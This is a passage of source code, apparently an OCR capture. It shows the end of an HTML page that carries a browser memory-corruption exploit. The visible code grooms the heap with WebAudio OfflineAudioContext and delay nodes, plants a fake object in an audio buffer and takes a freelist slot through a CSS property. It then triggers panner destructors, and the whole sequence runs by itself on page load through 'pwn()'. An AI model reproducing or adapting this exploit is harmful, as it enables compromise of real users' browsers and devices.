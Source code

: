 ```html
        let srcNode = audioCtxDelay.createBufferSource();
        srcNode.buffer = buffer;
        srcNode.connect(delayNode).connect(audioCtxDelay.destination);
        audioCtxDelay.suspend(0x600 / 4096.0);
        srcNode.start();
        audioCtxDelay.startRendering();
        // copy/paste
        await sleep(500);

        // consume freelist entry
        div1.style.setProperty('--tick', kCSSStringCross0x2000);

        // allocAudioArray copy/paste function because on call the same
        // func 3 times will start compilation and change heap layout
        let audioCtxDelay3 = new OfflineAudioContext(1, 4096, 4096);
        let delayNode3 = audioCtxDelay3.createDelay(delayToAlloc0x2000);
        let buffer3 = audioCtx.createBuffer(1, 0x600, 4096);
        let dstData3 = buffer3.getChannelData(0);
        new Uint8Array(dstData3.buffer).set(new Uint8Array(abFakeObj));
        let srcNode3 = audioCtxDelay3.createBufferSource();
        srcNode3.buffer = buffer3;
        srcNode3.connect(delayNode3).connect(audioCtxDelay3.destination);
        audioCtxDelay3.suspend(0x600 / 4096.0);
        srcNode3.start();
        audioCtxDelay3.startRendering();
        // copy/paste

        await sleep(1000);
        for (let i = panners.length - 3; i >= 0; i--) {
          panners[i].panningModel = 'equalpower';
        }
        console.log("destructors called")
      };
      audioCtxDelay.resume();
    }
  </script>
</head>

<body onload="pwn();">
  <div id="div0"></div>
  <div id="div1"></div>
</body>

</html>
```

**END**